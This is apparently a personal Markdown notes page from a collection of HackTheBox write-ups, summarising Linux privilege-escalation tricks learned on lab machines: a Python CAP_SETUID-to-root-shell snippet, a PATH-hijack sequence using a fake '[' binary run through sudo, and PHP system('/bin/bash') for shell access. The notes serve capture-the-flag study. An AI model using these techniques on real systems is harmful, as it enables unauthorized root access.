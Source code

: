 # General Privilege Escalation Concepts

**Note:** I made this cuz there are some concepts that I'm not very sure of categorizing, so yeah.

## CAP_SETUID bit

If this bit is on in a _python_ binary, refer to [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) for further details.

But basically, if you see this bit set on _python_, use the following script:

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Should be pretty self-explanatory.

## Abusing misconfigured PATH variable

```
PATH=/tmp:$PATH
```

That's the basic concept of how to abuse it. I don't fully understand the logic, but essentially, if a file (preferably with privileged access) does not have an absolute file path, you can make a temporary file (hence, **/tmp** being used in the file path since I usually do it there) that gives you a shell, set execute permissions for it, then reference that **PATH** before the file that actually has the escalated privileges, then it'll execute this temporary file and give you a shell.

Here's an example, based on [**Photobomb**](../../HTB/Photobomb/Writeup.md):

```
1. cd /tmp
2. echo "/bin/bash" > [
3. chmod +x [
4. sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

Where:
```cleanup.sh``` = file with sudo perms
```[``` = binary that can be manipulated (supposedly, in the machine, other bins were vulnerable too apparently)

## PHP Script

In the event that you are able to run **PHP scripts** directly, such as in the case in [**Dog**](../../HTB/Dog/Writeup.md#root-flag), don't forget about the ```system()``` module, which lets you run **shell commands** directly.

You can either do this for single commands:

```
system('[command]')
```

Or you can do this better method instead to have persistence:

```
system('/bin/bash')
```

You can use whatever shell you want/need, I usually prefer ```bash``` though.
